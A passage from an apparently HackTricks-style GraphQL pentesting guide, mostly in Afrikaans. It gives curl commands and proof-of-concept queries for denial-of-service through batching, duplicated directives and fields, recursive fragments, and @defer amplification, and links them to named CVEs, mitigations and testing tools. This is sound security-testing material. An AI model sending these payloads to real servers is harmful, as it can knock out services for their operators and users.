-d '[{"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}]' \
'https://example.com/graphql'
```
In hierdie voorbeeld word 10 verskillende queries in een request saam gegroepeer, wat die server dwing om hulle almal gelyktydig uit te voer. As dit met ’n groter batch size of computationally expensive queries uitgebuit word, kan dit die server oorlaai.

### **Directive Overloading Vulnerability**

**Directive Overloading** vind plaas wanneer ’n GraphQL server queries met oormatige, gedupliseerde directives toelaat. Dit kan die server se parser en executor oorweldig, veral as die server herhaaldelik dieselfde directive logic verwerk. Sonder behoorlike validation of limits kan ’n aanvaller dit uitbuit deur ’n query met talle duplicate directives te skep om hoë computational of memory usage te veroorsaak, wat lei tot **Denial of Service (DoS)**.
```bash
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "User-Agent: graphql-cop/1.13" \
-H "Content-Type: application/json" \
-d '{"query": "query cop { __typename @aa@aa@aa@aa@aa@aa@aa@aa@aa@aa }", "operationName": "cop"}' \
'https://example.com/graphql'
```
Let op dat in die vorige voorbeeld `@aa` ’n pasgemaakte directive is wat **miskien nie verklaar is nie**. ’n Algemene directive wat gewoonlik bestaan is **`@include`**:
```bash
curl -X POST \
-H "Content-Type: application/json" \
-d '{"query": "query cop { __typename @include(if: true) @include(if: true) @include(if: true) @include(if: true) @include(if: true) }", "operationName": "cop"}' \
'https://example.com/graphql'
```
Jy kan ook ’n introspeksie-navraag stuur om al die verklaarde directives te ontdek:
```bash
curl -X POST \
-H "Content-Type: application/json" \
-d '{"query": "{ __schema { directives { name locations args { name type { name kind ofType { name } } } } } }"}' \
'https://example.com/graphql'
```
En gebruik dan **sommige van die custom**es.

### **Field Duplication Vulnerability**

**Field Duplication** is 'n vulnerability waar 'n GraphQL-server queries toelaat met dieselfde field herhaaldelik herhaal. Dit dwing die server om die field oorbodig vir elke instansie te resolve, wat beduidende resources (CPU, memory, en database calls) verbruik. 'n Attacker kan queries met honderde of duisende herhaalde fields craft, wat hoë load veroorsaak en moontlik lei tot 'n **Denial of Service (DoS)**.
```bash
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "User-Agent: graphql-cop/1.13" -H "Content-Type: application/json" \
-d '{"query": "query cop { __typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n} ", "operationName": "cop"}' \
'https://example.com/graphql'
```
## Onlangse Vulnerabilities (2023-2025)

> Die GraphQL-ekosisteem ontwikkel baie vinnig; gedurende die laaste twee jaar is verskeie kritieke issues openbaar gemaak in die meesgebruikte server libraries. Wanneer jy dus ’n GraphQL endpoint vind, is dit die moeite werd om die engine te fingerprint (sien **graphw00f**) en die lopende weergawe teen die vulnerabilities hieronder te kontroleer.

### CVE-2024-47614 – `async-graphql` directive-overload DoS (Rust)
* Affected: async-graphql < **7.0.10** (Rust)
* Root cause: geen limiet op **gedupliseerde directives** (bv. duisende `@include`) wat uitgebrei word na ’n eksponensiële aantal execution nodes.
* Impact: ’n enkele HTTP request kan CPU/RAM uitput en die service laat crash.
* Fix/mitigation: upgrade ≥ 7.0.10 of roep `SchemaBuilder.limit_directives()` aan; alternatiewelik filter requests met ’n WAF rule soos `"@include.*@include.*@include"`.
```graphql
# PoC – repeat @include X times
query overload {
__typename @include(if:true) @include(if:true) @include(if:true)
}
```
### CVE-2024-40094 – `graphql-java` ENF depth/complexity bypass
* Aangetas: graphql-java < 19.11, 20.0-20.8, 21.0-21.4
* Oorsaak: **ExecutableNormalizedFields** is nie deur `MaxQueryDepth` / `MaxQueryComplexity` instrumentation oorweeg nie. Rekursiewe fragments het dus alle limiete omseil.
* Impak: unauthenticated DoS teen Java stacks wat graphql-java insluit (Spring Boot, Netflix DGS, Atlassian products…).
```graphql
fragment A on Query { ...B }
fragment B on Query { ...A }
query { ...A }
```
### CVE-2023-23684 – WPGraphQL SSRF to RCE chain
* Affected: WPGraphQL ≤ 1.14.5 (WordPress plugin).
* Root cause: the `createMediaItem` mutation accepted attacker-controlled **`filePath` URLs**, allowing internal network access and file writes.
* Impact: authenticated Editors/Authors could reach metadata endpoints or write PHP files for remote code execution.

### CVE-2025-32031 – Apollo Gateway query-planner fragment fan-out DoS
* Affected: `@apollo/gateway` < **2.10.1**
* Root cause: **deeply nested and heavily reused named fragments** can bypass internal query-planner optimizations, so the gateway spends most of its CPU time **planning** the request before it even reaches the subgraphs.
* Impact: a small number of unauthenticated requests can make a **federated gateway** unresponsive even when resolver depth/complexity checks look fine on the subgraphs.
* Testing hint: in black-box tests, watch for high latency / gateway CPU spikes with almost no corresponding subgraph traffic. The choke point is the planner, not the resolver.
```graphql
fragment F2 on Query { __typename }
fragment F1 on Query { ...F2 ...F2 }
fragment F0 on Query { ...F1 ...F1 }
query { ...F0 }
```
---

## Inkrementele aflewering misbruik: `@defer` / `@stream`
Sedert 2023 het die meeste groot servers (Apollo 4, GraphQL-Java 20+, HotChocolate 13) die **incremental delivery** directives geïmplementeer wat deur die GraphQL-over-HTTP WG gedefinieer is. Elke deferred patch word as ’n **aparte chunk** gestuur, so die totale response-grootte word *N + 1* (envelope + patches). ’n Query wat duisende klein deferred fields bevat, produseer dus ’n groot response terwyl dit die attacker net een request kos – ’n klassieke **amplification DoS** en ’n manier om body-size WAF rules te omseil wat net die eerste chunk inspekteer. WG lede self het die risiko uitgewys.

Example payload generating 2 000 patches:
```graphql
query abuse {
% for i in range(0,2000):
f{{i}}: __typename @defer
% endfor
}
```
Mitigation: disable `@defer/@stream` in production or enforce `max_patches`, cumulative `max_bytes` and execution time. Libraries like **graphql-armor** (see below) already enforce sensible defaults.

---

## Defensive middleware (2024+)

| Project | Notes |
|---|---|
| **graphql-armor** | Node/TypeScript validation middleware published by Escape Tech. Implements plug-and-play limits for query depth, alias/field/directive counts, tokens and cost; compatible with Apollo Server, GraphQL Yoga/Envelop, Helix, etc. |

Quick start:
```ts
import { protect } from '@escape.tech/graphql-armor';
import { applyMiddleware } from 'graphql-middleware';

const protectedSchema = applyMiddleware(schema, ...protect());
```
`graphql-armor` sal nou te diep, komplekse of directive-swaar queries blokkeer, wat die CVEs hierbo beskerm.

---


## Tools

### Vulnerability scanners

- [https://github.com/dolevf/graphql-cop](https://github.com/dolevf/graphql-cop): Toets algemene misconfigurations van graphql endpoints
- [https://github.com/assetnote/batchql](https://github.com/assetnote/batchql): GraphQL security auditing script met ’n fokus op batch GraphQL queries en mutations uitvoer.
- [https://github.com/dolevf/graphw00f](https://github.com/dolevf/graphw00f): Fingerprint die graphql wat gebruik word
- [https://github.com/gsmith257-cyber/GraphCrawler](https://github.com/gsmith257-cyber/GraphCrawler): Toolkit wat gebruik kan word om schemas te gryp en vir sensitiewe data te soek, authorization te toets, schemas te brute force, en paths na ’n gegewe type te vind.
- [https://blog.doyensec.com/2020/03/26/graphql-scanner.html](https://blog.doyensec.com/2020/03/26/graphql-scanner.html): Kan as standalone of [Burp extension](https://github.com/doyensec/inql) gebruik word.
- [https://github.com/swisskyrepo/GraphQLmap](https://github.com/swisskyrepo/GraphQLmap): Kan ook as ’n CLI client gebruik word om attacks te outomatiseer: `python3 graphqlmap.py -u http://example.com/graphql --inject`
- [https://gitlab.com/dee-see/graphql-path-enum](https://gitlab.com/dee-see/graphql-path-enum): Tool wat die verskillende maniere lys om **’n gegewe type in ’n GraphQL schema te bereik**.
- [https://github.com/doyensec/GQLSpection](https://github.com/doyensec/GQLSpection): Die opvolger van Standalone en CLI Modes os InQL
- [https://github.com/doyensec/inql](https://github.com/doyensec/inql): Burp extension of python script vir advanced GraphQL testing. Die _**Scanner**_ is die kern van InQL v5.0, waar jy ’n GraphQL endpoint of ’n local introspection schema file kan analiseer. Dit genereer outomaties alle moontlike queries en mutations, en organiseer dit in ’n gestruktureerde view vir jou analise. Die _**Attacker**_ komponent laat jou toe om batch GraphQL attacks uit te voer, wat nuttig kan wees om swak geïmplementeerde rate limits te omseil: `python3 inql.py -t http://example.com/graphql -o output.json`
- [https://github.com/nikitastupin/clairvoyance](https://github.com/nikitastupin/clairvoyance): Probeer om die schema te kry selfs met introspection gedeaktiveer deur die hulp van sommige Graphql databases te gebruik wat die name van mutations en parameters sal voorstel.

### Scripts to exploit common vulnerabilities

- [https://github.com/reycotallo98/pentestScripts/tree/main/GraphQLDoS](https://github.com/reycotallo98/pentestScripts/tree/main/GraphQLDoS): Versameling van scripts om denial-of-service vulnerabilities in vulnerable graphql environments te exploiteer.

### Clients

- [https://github.com/graphql/graphiql](https://github.com/graphql/graphiql): GUI client
- [https://altair.sirmuel.design/](https://altair.sirmuel.design/): GUI Client

### Automatic Tests


{{#ref}}
https://graphql-dashboard.herokuapp.com/
{{#endref}}

- Video wat AutoGraphQL verduidelik: [https://www.youtube.com/watch?v=JJmufWfVvyU](https://www.youtube.com/watch?v=JJmufWfVvyU)

## References

- [**https://jondow.eu/practical-graphql-attack-vectors/**](https://jondow.eu/practical-graphql-attack-vectors/)
- [**https://medium.com/@the.bilal.rizwan/graphql-common-vulnerabilities-how-to-exploit-them-464f9fdce696**](https://medium.com/@the.bilal.rizwan/graphql-common-vulnerabilities-how-to-exploit-them-464f9fdce696)
- [**https://medium.com/@apkash8/graphql-vs-rest-api-model-common-security-test-cases-for-graphql-endpoints-5b723b1468b4**](https://medium.com/@apkash8/graphql-vs-rest-api-model-common-security-test-cases-for-graphql-endpoints-5b723b1468b4)
- [**http://ghostlulz.com/api-hacking-graphql/**](http://ghostlulz.com/api-hacking-graphql/)
- [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/GraphQL%20Injection/README.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/GraphQL%20Injection/README.md)
- [**https://portswigger.net/web-security/graphql**](https://portswigger.net/web-security/graphql)
- [**https://github.com/advisories/GHSA-5gc2-7c65-8fq8**](https://github.com/advisories/GHSA-5gc2-7c65-8fq8)
- [**https://github.com/escape-tech/graphql-armor**](https://github.com/escape-tech/graphql-armor)
- [**https://blog.doyensec.com/2025/12/02/inql-v610.html**](https://blog.doyensec.com/2025/12/02/inql-v610.html)
- [**https://github.com/nicholasaleks/graphql-threat-matrix**](https://github.com/nicholasaleks/graphql-threat-matrix)
- [**https://graphql.org/learn/file-uploads/**](https://graphql.org/learn/file-uploads/)
- [**https://www.apollographql.com/docs/graphos/platform/security/persisted-queries**](https://www.apollographql.com/docs/graphos/platform/security/persisted-queries)

{{#include ../../banners/hacktricks-training.md}}
